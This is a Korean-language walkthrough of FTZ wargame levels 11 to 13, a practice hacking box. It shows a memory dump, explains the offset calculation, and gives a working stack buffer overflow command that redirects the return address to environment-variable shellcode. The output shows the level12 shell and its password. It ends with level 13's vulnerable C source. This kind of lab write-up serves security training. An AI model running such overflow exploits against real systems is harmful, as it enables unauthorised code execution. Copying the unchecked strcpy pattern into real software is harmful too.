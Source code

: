 ```assembly
0xbfffff0b:	 "LANG=en_US.UTF-8"
0xbfffff1c:	 "PS1=[\\u@\\h \\W]$ "
0xbfffff2d:	 "HOME=/home/level11"
0xbfffff40:	 "SHLVL=1"
0xbfffff48:	 "BASH_ENV=/home/level11/.bashrc"
0xbfffff67:	 "LOGNAME=level11"
0xbfffff77:	 "SSH_CONNECTION=192.168.64.1 1895 192.168.64.131 22"
0xbfffffaa:	 "LESSOPEN=|/usr/bin/lesspipe.sh %s"
0xbfffffcc:	 "G_BROKEN_FILENAMES=1"

```

자 보면 아까 만들어놓은 쉘코드가 환경변수에 잘 들어가있다. 지금 현재는 정상적인 스택의 상태이다.
계산을 해보면 증명이된다. 정상적으로 256바이트의 모든 배열을 사용하였다고 했을 때, 12 byte(dummy + sfp) 뒤에 ret가 있다.  그럼 256+12 = 268 바이트만큼 의미없는 값으로 채워주고 쉘코드가 있는 환경변수의 주소 값을 넣어주면 된다.

```sh
[level11@ftz tmp]$ ./env
Shell ADDR: 0xbffffc22 # 쉘 코드 주소

[level11@ftz level11]$ ./attackme `python -c 'print "A"*268+"\x22\xfc\xff\xbf"'` #RET 주소 변조
sh-2.05b$ id
uid=3092(level12) gid=3091(level11) groups=3091(level11)
sh-2.05b$ my-pass
TERM environment variable not set.

Level12 Password is "it is like this".
```

끝!



## [+] FTZ level12 ~ level13

### Analysis

level 12의 경우 11과 같은 방식의 버퍼오버플로우를 이용하여 풀 수 있다.
level 13의 경우 소스 코드를 보면 다음과 같다.

```c
#include <stdlib.h> 

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```
